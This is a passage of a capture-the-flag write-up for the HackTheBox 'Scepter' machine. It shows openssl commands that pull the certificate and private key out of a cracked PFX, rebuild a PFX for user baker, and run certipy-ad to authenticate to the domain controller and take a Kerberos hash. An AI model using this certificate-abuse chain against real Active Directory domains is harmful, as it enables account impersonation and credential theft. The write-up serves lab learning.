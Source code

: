 We use the cracked password to inspect and extract contents:

```bash
─# openssl pkcs12 -in clark.pfx -info                 
Enter Import Password:newpassword
```

After entering the password `newpassword`, we confirm it contains:

- A certificate for **CN=m.clark**
- A private key (encrypted with AES-256-CBC)
- Issued by the internal CA: `scepter-DC01-CA`

Extracting the Certificate and Key from `clark.pfx`

### 3. Extracting the Certificate and Key from `clark.pfx`

We extract the certificate:

```
openssl pkcs12 -in clark.pfx -nokeys -out clark_cert.pem
```

Then the private key:

```bash
openssl pkcs12 -in clark.pfx -nocerts -nodes -out clark_key.pem
```

### 4. Recombining `.crt` and `.key` into a New PFX

We can recreate the `.pfx` file from the extracted certificate and key. This step demonstrates that **with a valid `.crt` and `.key`, we can recreate the original `.pfx`** file.

```bash
└─# openssl pkcs12 -export -in baker.crt -inkey baker.key -out baker.pfx
Enter pass phrase for baker.key: newpassword
Enter Export Password: [BLANK]
Verifying - Enter Export Password: [BLANK]
```

nice!!!! lets check if we can auth it and grab baker hash

```bash
└─# certipy-ad auth -pfx baker.pfx -dc-ip 10.10.11.65
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information

```
